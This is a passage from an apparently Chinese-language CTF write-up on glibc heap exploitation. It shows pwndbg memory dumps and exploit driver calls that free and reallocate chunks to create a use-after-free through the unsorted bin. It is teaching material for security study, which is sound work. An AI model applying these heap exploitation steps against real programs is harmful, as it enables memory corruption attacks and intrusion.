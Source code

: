 ```
0x11de860:      0x3030303030303030      0x3030303030303030
0x11de870:      0x3030303030303030      0x3030303030303030
0x11de880:      0x3030303030303030      0x3030303030303030
0x11de890:      0x3030303030303030      0x3030303030303030
0x11de8a0:      0x3030303030303030      0x0030303030303030
0x11de8b0:      0x0000000000000000      0x0000000000000021
0x11de8c0:      0x3131313131313131      0x0031313131313131
0x11de8d0:      0x0000000000000000      0x0000000000000091
0x11de8e0:      0x3232323232323232      0x3232323232323232
0x11de8f0:      0x3232323232323232      0x3232323232323232
0x11de900:      0x3232323232323232      0x3232323232323232
0x11de910:      0x3232323232323232      0x3232323232323232
0x11de920:      0x3232323232323232      0x3232323232323232
0x11de930:      0x3232323232323232      0x3232323232323232
0x11de940:      0x3232323232323232      0x3232323232323232
0x11de950:      0x3232323232323232      0x0032323232323232
0x11de960:      0x0000000000000000      0x0000000000000071
0x11de970:      0x6161616161616161      0x6161616161616161
```

**STEP2** 主要执行如下代码：

```
delete(2)                #           unsortbin: chunk2 <-> main_area <->
delete(0)                #           unsortbin: chunk0 <-> chunk2 <-> main_area <->
add(0x80, '4' * 0x80)    # 0=chunk2  unsortbin: chunk0 <-> main_area <->
```

这里主要通过操作chunk2和chunk0来完成uaf。这里先后释放了chunk2和chunk0，然后又新建了节点，节点释放后会被放入unsortbin，按照先进先出的原则，这里新分配的节点内存实际分配的就是chunk2。注意这里中间隔了一个chunk1，其作用就是为了防止chunk2和chunk0被释放后自动合并的，所以这里chunk1的大小并不重要。

内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x00000000011dd010
pwndbg> x/20gx 0x11dd010
0x11dd010:      0x0000000000000100      0x0000000000000004
0x11dd020:      0x0000000000000001      0x0000000000000080
0x11dd030:      0x00000000011de8e0      0x0000000000000001
0x11dd040:      0x0000000000000010      0x00000000011de8c0
0x11dd050:      0x0000000000000000      0x0000000000000000
0x11dd060:      0x00000000011de8e0      0x0000000000000001
0x11dd070:      0x0000000000000068      0x00000000011de970
0x11dd080:      0x0000000000000001      0x0000000000000068
0x11dd090:      0x00000000011de9e0      0x0000000000000000
0x11dd0a0:      0x0000000000000000      0x0000000000000000
pwndbg> x/44gx 0x11de830-0x10
0x11de820:      0x0000000000000000      0x0000000000000091
0x11de830:      0x00007fe8f1108b78      0x00007fe8f1108b78
0x11de840:      0x3030303030303030      0x3030303030303030
0x11de850:      0x3030303030303030      0x3030303030303030
0x11de860:      0x3030303030303030      0x3030303030303030
0x11de870:      0x3030303030303030      0x3030303030303030
0x11de880:      0x3030303030303030      0x3030303030303030
0x11de890:      0x3030303030303030      0x3030303030303030
0x11de8a0:      0x3030303030303030      0x0030303030303030
0x11de8b0:      0x0000000000000090      0x0000000000000020
0x11de8c0:      0x3131313131313131      0x0031313131313131
0x11de8d0:      0x0000000000000000      0x0000000000000091
0x11de8e0:      0x3434343434343434      0x3434343434343434
0x11de8f0:      0x3434343434343434      0x3434343434343434
0x11de900:      0x3434343434343434      0x3434343434343434
0x11de910:      0x3434343434343434      0x3434343434343434
0x11de920:      0x3434343434343434      0x3434343434343434
0x11de930:      0x3434343434343434      0x3434343434343434
```